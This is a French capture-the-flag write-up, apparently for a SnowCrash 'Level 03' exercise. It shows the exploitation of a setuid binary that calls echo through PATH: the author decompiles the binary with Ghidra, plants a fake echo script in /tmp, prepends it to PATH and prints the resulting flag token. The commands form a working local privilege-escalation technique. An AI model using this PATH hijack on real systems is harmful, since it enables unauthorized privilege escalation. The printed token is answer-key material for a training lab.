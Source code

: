 # Level 03

Dans le home de `level03` on remarque qu'il existe un binaire nommé `level03`, en executant la commande `ls -la` on peut voir que le binaire s'exécute avec les droits de l'owner c'est à dire `flag03`

```sh
~ ls -la
total 24
dr-x------ 1 level03 level03  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level03 level03  220 Apr  3  2012 .bash_logout
-r-x------ 1 level03 level03 3518 Aug 30  2015 .bashrc
-r-x------ 1 level03 level03  675 Apr  3  2012 .profile
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
```

Quand on lance le binaire, il écrit sur l'entrée standart `Exploit me`, on comprend alors qu'il faut faire du reverse ingénierie.

```sh
~ ./level03
Exploit me
```

On l'as décompiler avec [ghidra](https://ghidra-sre.org/) pour une meilleure visibilité car il décompile en `ASM` et traduit l'`ASM` en pseudo-code `C`. (Ici le screenshot sera que du pseudo-code `C`)

![Pseudo Code C du binaire Level03](../../assets/level03-ghidra-c.png)

On peux voir qu'il utilise l'enviromnent pour appeler `echo`, on as donc crée un dossier `myPath` dans `/tmp` avec un script bash appeler `echo` qui appel la commande `getflag`.

```shell
~ mkdir /tmp/myPath
~ scp -P 4242 echo level03@192.168.56.101:/tmp/myPath
level03@192.168.56.101's password:
echo                                            100%   25    33.6KB/s   00:00
~ chmod 777 /tmp/myPath/echo
~ export PATH=/tmp/myPath:$PATH
~ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
~ su level04
Password:
```